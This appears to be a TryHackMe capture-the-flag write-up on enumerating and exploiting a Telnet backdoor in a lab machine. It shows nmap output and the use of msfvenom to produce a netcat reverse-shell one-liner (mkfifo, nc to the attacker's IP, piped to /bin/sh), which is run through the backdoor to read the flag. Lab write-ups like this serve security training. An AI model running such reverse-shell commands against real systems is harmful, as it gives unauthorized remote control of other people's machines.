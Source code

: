 # Network Services Telnet

---
Date: 2021-12-17  
Author: Michael Baumberger  
[TryHackMe link](https://tryhackme.com/room/networkservices)
---

## Task 6 | Enumerating Telnet

Nmap scan the machine:

    nmap -sV -p- -A 10.10.122.25
    Starting Nmap 7.92 ( https://nmap.org ) at 2021-12-18 21:35 CET
    Nmap scan report for 10.10.122.25
    Host is up (0.043s latency).
    Not shown: 65534 closed tcp ports (reset)
    PORT     STATE SERVICE VERSION
    8012/tcp open  unknown
    | fingerprint-strings:
    |   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NCP, NULL, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, X11Probe:
    |_    SKIDY'S BACKDOOR. Type .HELP to view commands
    1 service unrecognized despite returning data. 
    No exact OS matches for host
    
    OS and Service detection performed.
    Nmap done: 1 IP address (1 host up) scanned in 662.36 seconds

In the scan you can se the **open tcp port 8012** with the title 'SKIDY'S BACKDOOR' so maybe it is **a backdoor** from the **user skidy**.

## Task 7 | Exploiting Telnet

With telnet we can connect to the server:

    telnet 10.10.122.25 8012
    Trying 10.10.122.25...
    Connected to 10.10.122.25.
    Escape character is '^]'.
    SKIDY'S BACKDOOR. Type .HELP to view commands

Here we can see again **'SKIDY'S BACKDOOR.'**

We can try to execute a command but get **no result**:

    SKIDY'S BACKDOOR. Type .HELP to view commands
    .HELP
    .HELP: View commands
    .RUN <command>: Execute commands
    .EXIT: Exit
    .RUN ls

Now start a tcpdump listener:

    tcpdump ip proto \\icmp -i eth0
    tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
    listening on eth0, link-type EN10MB (Ethernet), snapshot length 262144 bytes

Now execute in telnet the command *'.RUN ping 10.9.0.0 -c 1'* with your ip and you should see a echo request and reply in your tcpdump listener.
This means **there is code execution**.

now we can create a reverse shell command like:

    msfvenom -p cmd/unix/reverse_netcat lhost=10.9.0.0 lport=4444 R
    [-] No platform was selected, choosing Msf::Module::Platform::Unix from the payload
    [-] No arch selected, selecting arch: cmd from the payload
    No encoder specified, outputting raw payload
    Payload size: 90 bytes
    mkfifo /tmp/guzg; nc 10.9.0.0 4444 0</tmp/guzg | /bin/sh >/tmp/guzg 2>&1; rm /tmp/guzg

Wo now can listen to the lport from above via:

    nc -lvp 4444
    listening on [any] 4444 ...

Now run the mkfifo command to create the reverse shell:

    .RUN mkfifo /tmp/guzg; nc 10.9.205.135 4444 0</tmp/guzg | /bin/sh >/tmp/guzg 2>&1; rm /tmp/guzg

In your netcat listener you should see something like this but my setup is buggy because of wsl2.

    nc -lvp 4444
    listening on [any] 4444 ...
    DNS fwd/rev mismatch: PC != PC.localdomain
    connect to [172.26.102.250] from PC-Main [172.26.96.1] 58297

Now you can execute commands in this reverse shell and get the flag:

    nc -lvp 4444
    listening on [any] 4444 ...
    DNS fwd/rev mismatch: PC-Main != PC-Main.localdomain
    connect to [172.26.102.250] from PC-Main [172.26.96.1] 58297
    ls
    flag.txt
    cat flag.txt
    THM{xxxxxxxxxxxxxxxxxxxxxxx}
